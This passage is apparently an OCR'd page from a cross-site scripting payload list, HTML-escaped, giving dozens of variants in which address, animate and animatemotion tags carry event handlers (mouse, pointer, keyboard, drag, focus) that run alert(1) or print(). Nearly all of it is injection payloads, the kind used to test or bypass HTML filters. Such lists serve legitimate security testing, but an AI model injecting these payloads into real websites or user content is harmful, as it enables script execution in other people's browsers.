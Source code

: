 &lt;address onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/address&gt;&lt;input autofocus&gt;
&lt;address onkeydown="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onkeypress="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onkeyup="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onmousedown="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmouseenter="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmouseleave="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmousemove="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmouseout="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmouseover="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmouseup="alert(1)"&gt;test&lt;/address&gt;
&lt;address onmousewheel=alert(1)&gt;requires scrolling
&lt;address onpaste="alert(1)" contenteditable&gt;test&lt;/address&gt;
&lt;address onpointerdown=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerenter=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerleave=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointermove=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerout=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerover=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerrawupdate=alert(1)&gt;XSS&lt;/address&gt;
&lt;address onpointerup=alert(1)&gt;XSS&lt;/address&gt;
&lt;animate draggable="true" ondrag="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate draggable="true" ondragend="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate draggable="true" ondragenter="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate draggable="true" ondragleave="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate draggable="true" ondragstart="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate id=x tabindex=1 onactivate=alert(1)&gt;&lt;/animate&gt;
&lt;animate id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/animate&gt;
&lt;animate id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/animate&gt;&lt;input autofocus&gt;
&lt;animate id=x tabindex=1 ondeactivate=print()&gt;&lt;/animate&gt;&lt;input id=y autofocus&gt;
&lt;animate onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animate onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;animate onclick="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate oncontextmenu="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animate oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;animate ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/animate&gt;
&lt;animate onkeydown="alert(1)" contenteditable&gt;test&lt;/animate&gt;
&lt;animate onkeypress="alert(1)" contenteditable&gt;test&lt;/animate&gt;
&lt;animate onkeyup="alert(1)" contenteditable&gt;test&lt;/animate&gt;
&lt;animate onmousedown="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmouseenter="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmouseleave="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmousemove="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmouseout="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmouseover="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmouseup="alert(1)"&gt;test&lt;/animate&gt;
&lt;animate onmousewheel=alert(1)&gt;requires scrolling
&lt;animate onpointerdown=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerenter=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerleave=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointermove=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerout=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerover=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerrawupdate=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animate onpointerup=alert(1)&gt;XSS&lt;/animate&gt;
&lt;animatemotion draggable="true" ondrag="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion draggable="true" ondragend="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion draggable="true" ondragenter="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion draggable="true" ondragleave="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion draggable="true" ondragstart="alert(1)"&gt;test&lt;/animatemotion&gt;
&lt;animatemotion id=x tabindex=1 onactivate=alert(1)&gt;&lt;/animatemotion&gt;
&lt;animatemotion id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/animatemotion&gt;
